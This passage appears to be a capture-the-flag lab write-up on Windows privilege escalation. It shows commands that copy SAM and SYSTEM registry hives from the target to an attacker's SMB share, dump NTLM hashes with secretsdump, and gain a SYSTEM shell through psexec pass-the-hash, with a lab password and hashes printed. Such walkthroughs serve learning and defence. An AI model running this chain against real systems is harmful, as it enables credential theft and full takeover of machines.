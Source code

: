 ```bash
root@ip-10-10-174-91:~# mkdir share
root@ip-10-10-174-91:~# python3 /opt/impacket/examples/smbserver.py -smb2support -username THMBackup -password CopyMaster555 public share

```

Copy the hives to the AttackBox machine

```bash
C:\>copy C:\Users\THMBackup\sam.hive \\10.10.174.91\Public
C:\>copy C:\Users\THMBackup\system.hive \\10.10.174.91\Public
```

<img width="1919" height="689" alt="Screenshot 2025-08-16 160530" src="https://github.com/user-attachments/assets/4ddd835b-a8dd-4638-b670-aa2ac16eec40" />

```bash
root@ip-10-10-174-91:~# ls share
sam.hive  system.hive
root@ip-10-10-174-91:~# file share/*
share/sam.hive:    MS Windows registry file, NT/2000 or above
share/system.hive: MS Windows registry file, NT/2000 or above

```

Use impacket’s [secretsdump.py](https://wadcoms.github.io/wadcoms/Impacket-SecretsDump/) to read SAM and LSA secrets from registries.

```bash
root@ip-10-10-127-1:~# python3 /opt/impacket/examples/secretsdump.py -system share/system.hive -sam share/sam.hive local
Impacket v0.13.0.dev0+20250814.3907.9282c9bb - Copyright Fortra, LLC and its affiliated companies 

[*] Target system bootKey: 0x36c8d26ec0df8b23ce63bcefa6e2d821
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:8f81ee5558e2d1205a84d07b0e3b34f5:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:58f8e0214224aebc2c5f82fb7cb47ca1:::
THMBackup:1008:aad3b435b51404eeaad3b435b51404ee:6c252027fb2022f5051e854e08023537:::
THMTakeOwnership:1009:aad3b435b51404eeaad3b435b51404ee:0af9b65477395b680b822e0b2c45b93b:::
[*] Cleaning up... 

```

Use [psexec.py](https://wadcoms.github.io/wadcoms/Impacket-PsExec/), to Pass-the-Hash of the Administrator's account and gain access to the target machine with SYSTEM privileges

```bash
root@ip-10-10-127-1:~# python3 /opt/impacket/examples/psexec.py -hashes aad3b435b51404eeaad3b435b51404ee:8f81ee5558e2d1205a84d07b0e3b34f5 administrator@10.10.119.143
Impacket v0.13.0.dev0+20250814.3907.9282c9bb - Copyright Fortra, LLC and its affiliated companies 

[*] Requesting shares on 10.10.119.143.....
[*] Found writable share ADMIN$
[*] Uploading file VRXkmiuO.exe
[*] Opening SVCManager on 10.10.119.143.....
[*] Creating service hAWD on 10.10.119.143.....
[*] Starting service hAWD.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.17763.1821]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32> whoami
nt authority\system

```
